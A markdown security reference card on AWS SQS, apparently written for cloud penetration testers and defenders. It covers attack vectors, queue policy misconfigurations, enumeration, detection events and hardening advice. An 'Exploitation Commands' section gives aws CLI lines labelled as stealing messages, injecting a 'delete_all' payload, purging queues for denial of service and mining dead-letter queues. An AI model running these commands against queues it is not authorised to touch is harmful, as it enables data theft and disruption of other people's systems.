

#  AWS SQS Security



> **Category**: QUEUING

Simple Queue Service (SQS) provides managed message queuing for decoupling applications. Queue policies control access. Messages often contain sensitive data and trigger downstream processing.

## Quick Stats

| Risk Level | Max Retention | Or Standard | Model |
| --- | --- | --- | --- |
| **MEDIUM** | **14 Days** | **FIFO** | **Pull** |

## Service Overview

### Standard Queues

Best-effort ordering, at-least-once delivery. Unlimited throughput. Messages may be delivered more than once or out of order. Suitable for high-volume decoupling.

> Attack note: Messages can be read multiple times until deleted - persistence for attackers

### FIFO Queues

Exactly-once processing, strict ordering. 3,000 messages/sec with batching. Message deduplication prevents replays. Better for ordered transaction processing.

> Attack note: Deduplication can be bypassed with unique deduplication IDs

## Security Risk Assessment

`███████░░░` **6.5/10** (HIGH)

SQS queue misconfigurations allow message theft, injection, and processing pipeline manipulation. Dead-letter queues often contain failed sensitive messages that attackers can access.

## ⚔️ Attack Vectors

### Message Operations

- Receive messages from exposed queues
- Steal messages before legitimate consumers
- Delete messages to disrupt processing
- Send malicious messages to inject payloads
- Purge queues to cause denial of service

### Queue Manipulation

- Modify queue attributes
- Change dead-letter queue settings
- Access dead-letter queues for failed data
- Extend visibility timeout to hold messages
- Tag resources for tracking

## ⚠️ Misconfigurations

### Queue Policy Issues

- Principal: * with no conditions
- Allow SendMessage from any account
- Allow ReceiveMessage to everyone
- Missing source ARN/account conditions
- Cross-account access too permissive

### Security Settings

- Messages not encrypted (SSE disabled)
- Long message retention with sensitive data
- Dead-letter queue accessible to attackers
- No CloudTrail data events logging
- Missing VPC endpoint for private access

## 🔍 Enumeration

**List All Queues**
```bash
aws sqs list-queues
```

**Get Queue Attributes**
```bash
aws sqs get-queue-attributes \\
  --queue-url https://sqs.us-east-1.amazonaws.com/123456789012/my-queue \\
  --attribute-names All
```

**Get Queue Policy**
```bash
aws sqs get-queue-attributes \\
  --queue-url URL \\
  --attribute-names Policy
```

**List Dead-Letter Queues**
```bash
aws sqs list-dead-letter-source-queues --queue-url URL
```

**Check Approximate Message Count**
```bash
aws sqs get-queue-attributes \\
  --queue-url URL \\
  --attribute-names ApproximateNumberOfMessages
```

## 📥 Message Theft

### Reading Messages

- ReceiveMessage to read queue contents
- Long polling (20 sec) for efficient theft
- Batch receive (up to 10 messages)
- Access visibility timeout to keep messages
- Race legitimate consumers for data

### Dead-Letter Queue Mining

- DLQ contains failed/problematic messages
- Often has sensitive data or credentials
- Less monitored than main queues
- Messages retained up to 14 days
- Check RedrivePolicy for DLQ ARN

> **Gold Mine:** Dead-letter queues often contain exception data with stack traces, credentials, and sensitive payloads.

## 💉 Message Injection

### Injection Scenarios

- Send malicious JSON to Lambda consumers
- Inject commands for EC2 workers
- Manipulate order processing data
- Trigger downstream application logic
- Batch send for amplified impact

### Impact

- Code execution in message processors
- Data corruption in applications
- Financial transaction manipulation
- Denial of service via queue flooding
- Business logic bypass

## 🛡️ Detection

### CloudTrail Events

- SendMessage - message sent to queue
- ReceiveMessage - message received
- DeleteMessage - message deleted
- PurgeQueue - queue emptied
- SetQueueAttributes - policy changed

### Indicators of Compromise

- Messages received by unknown principals
- Bulk delete operations
- Queue policy modifications
- Unusual SendMessage sources
- High volume from new IP addresses

## Exploitation Commands

**Receive Messages (Steal Data)**
```bash
aws sqs receive-message \\
  --queue-url https://sqs.us-east-1.amazonaws.com/VICTIM/queue \\
  --max-number-of-messages 10 \\
  --wait-time-seconds 20
```

**Send Malicious Message**
```bash
aws sqs send-message \\
  --queue-url https://sqs.us-east-1.amazonaws.com/TARGET/process-queue \\
  --message-body '{"action":"admin","command":"delete_all"}'
```

**Batch Send (Amplify Attack)**
```bash
aws sqs send-message-batch \\
  --queue-url URL \\
  --entries '[{"Id":"1","MessageBody":"payload1"},{"Id":"2","MessageBody":"payload2"}]'
```

**Purge Queue (DoS)**
```bash
aws sqs purge-queue --queue-url https://sqs.us-east-1.amazonaws.com/TARGET/queue
```

**Read Dead-Letter Queue**
```bash
# First find DLQ from RedrivePolicy
aws sqs receive-message \\
  --queue-url https://sqs.us-east-1.amazonaws.com/TARGET/queue-dlq \\
  --max-number-of-messages 10
```

**Extend Visibility (Hold Messages)**
```bash
aws sqs change-message-visibility \\
  --queue-url URL \\
  --receipt-handle HANDLE \\
  --visibility-timeout 43200
```

## Policy Examples

### ❌ Dangerous - Public Queue

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": "*",
    "Action": ["SQS:SendMessage", "SQS:ReceiveMessage"],
    "Resource": "arn:aws:sqs:us-east-1:123456789012:my-queue"
  }]
}
```

*Anyone can send and receive messages - full queue compromise*

### ✅ Secure - Account Restricted

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::123456789012:root"},
    "Action": ["SQS:*"],
    "Resource": "arn:aws:sqs:us-east-1:123456789012:my-queue"
  }]
}
```

*Only same account can access the queue*

### ❌ Risky - SNS Can Send

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"Service": "sns.amazonaws.com"},
    "Action": "SQS:SendMessage",
    "Resource": "arn:aws:sqs:us-east-1:123456789012:queue"
  }]
}
```

*Any SNS topic can send - should have source ARN condition*

### ✅ Secure - Source ARN Restricted

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"Service": "sns.amazonaws.com"},
    "Action": "SQS:SendMessage",
    "Resource": "arn:aws:sqs:us-east-1:123456789012:queue",
    "Condition": {
      "ArnEquals": {
        "aws:SourceArn": "arn:aws:sns:us-east-1:123456789012:my-topic"
      }
    }
  }]
}
```

*Only specific SNS topic can send messages*

## Defense Recommendations

### 🔐 Enable Server-Side Encryption

Encrypt messages at rest with SQS-managed or KMS keys.

```bash
aws sqs set-queue-attributes \\
  --queue-url URL \\
  --attributes KmsMasterKeyId=alias/sqs-key
```

### 🚫 Restrict Queue Policies

Never use Principal: * without conditions. Use source ARN/account conditions.

### 🔒 Secure Dead-Letter Queues

Apply same or stricter policies to DLQs as main queues.

### 📝 Enable CloudTrail Data Events

Log SendMessage and ReceiveMessage operations for auditing.

### 🌐 Use VPC Endpoints

Access SQS through VPC endpoint to avoid public internet.

```bash
aws ec2 create-vpc-endpoint \\
  --vpc-id vpc-xxx \\
  --service-name com.amazonaws.us-east-1.sqs
```

### ⏱️ Set Appropriate Retention

Minimize message retention period to reduce exposure window.

---

*AWS SQS Security Card*

*Always obtain proper authorization before testing*
